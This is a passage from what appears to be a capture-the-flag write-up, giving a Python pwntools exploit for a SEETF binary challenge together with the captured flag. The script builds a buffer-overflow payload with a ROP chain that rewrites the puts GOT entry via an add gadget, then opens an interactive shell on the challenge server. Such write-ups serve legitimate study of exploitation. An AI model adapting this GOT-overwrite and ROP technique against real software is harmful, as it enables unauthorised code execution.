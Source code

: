 ```python
            b* 0x00000000004012ae
            b* 0x00000000004011fc
            c
			''')
		else:
			pass
	else:
		io = remote('win.the.seetf.sg', 2004)

	return io


elf = ELF('./chall_patched')
libc = ELF('libc.so.6')


pop_rdi = 0x0000000000401313
pop_rsi_r15 = 0x0000000000401311
leave_ret = 0x000000000040122c
pop_rbp = 0x000000000040119d
ret = 0x000000000040101a
main = 0x000000000040122e
main_no_push = main+1
input_floats = 0x00000000004011b6
put_gots = 0x404018
csu = 0x40130a
add_what_where = 0x000000000040119c # add dword ptr [rbp - 0x3d], ebx ; nop ; ret


def hex_to_float(hex_str):
    binary_str = bytes.fromhex(hex_str)
    unpacked = struct.unpack('!f', binary_str)
    return unpacked[0]

try:
	io = riconn()
	payload = 0x61*b'A' + 8*b'A' + p64(csu) + p64(0x5f6de) + p64(put_gots+0x3d) + p64(0)*4 + p64(add_what_where) + p64(elf.sym['puts'])
	value = '3.544850151698461e-38'
	io.sendafter(b'ale.\n',payload)
	io.sendlineafter(b'number!\n', b'1')
	io.sendlineafter(b'number!\n', value.encode())
	io.sendlineafter(b'number!\n', b'+')	
	io.interactive()

except:
    io.close()
```

**$ flag:** SEE{Im_f33ling_1ucky_e27e006fe918ab56}

